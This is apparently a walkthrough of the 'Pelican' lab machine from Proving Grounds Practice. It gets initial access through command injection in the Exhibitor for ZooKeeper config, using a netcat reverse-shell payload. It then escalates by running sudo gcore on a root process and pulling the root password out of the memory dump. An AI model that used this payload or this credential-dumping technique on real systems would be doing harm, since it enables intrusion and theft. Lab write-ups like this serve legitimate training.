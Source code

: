 ```yaml
---
layout: post
title: Pelican
date: 2024-06-01 12:00:00 +0100
published: true
categories: [PG Practice]
tags: [PG Practice]
---
```


## Summary

On port 8081 is running `Exhibitor for ZooKeeper v1.0` which is vulnerable to arbitrary code execution via `java.env script` field under Config tab. Malicious command needs to be placed inside `$()`. I was able to get initial foothold on the system by using reverse shell one liner as payload. Enumerating system as user `charles` I found out that `charles` can run `/usr/bin/gcore` with `sudo`. This binary can be used to generate core dump of process by providing process ID. Searching for processes I ran `pspy64s` and found interesting process `/usr/bin/password-store`, which is running as root. I generated core dump for `/usr/bin/password-store` process using `/usr/bin/gcore`. Inspecting output I found root credentials and I was able to log in as root. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -oN ./nmap.txt 192.168.246.98
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp open  http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration

### Service Enumeration

|                |                                         |
| -------------- | --------------------------------------- |
| **IP Address** | **Ports Open**                          |
| 192.168.246.98 | **TCP**: 22, 445, 631, 2222, 8080, 8081 |
#### Port 445

```
smbclient -N -L //192.168.246.98
```

![445](/assets/images/pelican/445.png)

#### Port 631

```
CUPS v2.2.10
```

#### Port 8080

```
Jetty 1.0
```

#### Port 8081

```
nginx 1.14.2
```

![[8081.png]]

```
Exhibitor for ZooKeeper v1.0
```

___
## Initial Foothold

### Exhibitor Web UI - RCE

Source: https://www.exploit-db.com/exploits/48654

`java.env script` field can be modified and the new configuration pushed to `ZooKeeper`. We can execute arbitrary code by placing it inside `$()`. For payload I used simple reverse shell one liner. 

Payload:
```
$(/bin/nc -e /bin/sh 192.168.45.162 4444 &)
```

![[PG Practice/Intermediate/Pelican/Screenshots/exploit.png]]

After committing changes we receive reverse shell on port 4444.

![[PG Practice/Intermediate/Pelican/Screenshots/reverseSHell.png]]

### Local.txt

![[PG Practice/Intermediate/Pelican/Screenshots/localFlag.png]]

_____
## Privilege Escalation

### System Enumeration

```
sudo -l
```

![[PG Practice/Intermediate/Pelican/Screenshots/sudoL.png]]

Output showed that we can run `/usr/bin/gcore` with `sudo`. Searching this binary on `gtfobins` (https://gtfobins.github.io/gtfobins/gcore/) revealed that it is possible to uses this binary to generate core dump of process by providing process ID. 
#### Pspy64s

Running `pspy64s` revealed interesting process `/usr/bin/password-store`, which is running with root privileges. 

![[PG Practice/Intermediate/Pelican/Screenshots/pspy64s.png]]

### Core dump of /usr/bin/password-store process

```
sudo /usr/bin/gcore -a -o output.txt 494
```

![[escal.png]]

Inspecting output we can find root credentials.

```
cat output.txt
```

![[PG Practice/Intermediate/Pelican/Screenshots/password.png]]

### Root Access

```
root : ClogKingpinInning731
```

![[PG Practice/Intermediate/Pelican/Screenshots/rootLogin.png]]

___
## Post Exploitation

![[PG Practice/Intermediate/Pelican/Screenshots/proofFlag.png]]
